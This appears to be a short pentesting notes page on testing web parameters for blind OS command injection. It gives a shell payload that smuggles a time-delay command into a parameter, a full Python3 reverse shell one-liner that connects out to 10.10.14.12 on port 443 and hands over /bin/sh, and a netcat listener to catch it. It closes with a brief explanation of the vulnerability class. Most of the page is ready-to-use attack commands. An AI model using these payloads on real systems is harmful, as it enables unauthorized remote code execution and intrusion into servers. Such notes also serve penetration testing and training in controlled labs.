



# Blind Command Injection Test

Testing for blind command injection  

If you suspect a web parameter is vulnerable to command injection but the response is not reflecting any commands injected, test with sleep condition.  

### Bash IF Condition example - validation of oneliner execution before testing on target
```bash
;if [ -f /usr/bin/python3 ]; then echo "FILE FOUND" && sleep 10; else echo "FILE NOT FOUND" && sleep 0; fi
```


### Bash oneliner if condition test command is going to wait for 10 seconds sleep if file does exist on the target.
```bash
;if [ -f /usr/bin/python3 ]; then sleep 10; else sleep 0; fi
```
* Note: URL encode the injected command before sending to target.  

If the above command results in a response taking 10+ seconds to return, good case for blind command injection on linux target.

### Below is oneline python3 reverse shell
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


### Before sending above Python3 reverse shell command injection, have netcat ready and listening on port 443.
```bash
rlwrap nc -nvlp 443
```


### Issue Context
Operating system command injection vulnerabilities arise when an application incorporates user-controllable data into a command that is processed by a shell command interpreter. If the user data is not strictly validated, an attacker can use shell metacharacters to modify the command that is executed, and inject arbitrary further commands that will be executed by the server.  
